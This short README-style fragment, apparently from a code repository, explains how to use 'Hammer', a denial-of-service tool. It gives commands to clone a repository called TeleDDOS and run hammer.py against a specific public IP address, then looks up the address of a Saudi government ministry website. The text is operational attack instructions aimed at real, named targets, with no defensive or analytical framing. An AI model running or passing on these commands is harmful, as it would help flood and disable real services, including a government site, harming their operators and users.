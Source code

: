 1. How to use Hammer [`Watch it`](http://www.youtube.com/watch?v=HVbRUhX2EPo) 

```

cd ~
git clone https://github.com/KingArmin/TeleDDOS
cd TeleDDOS

python3 hammer.py -s 136.243.145.232 

nslookup www.moe.gov.sa

```

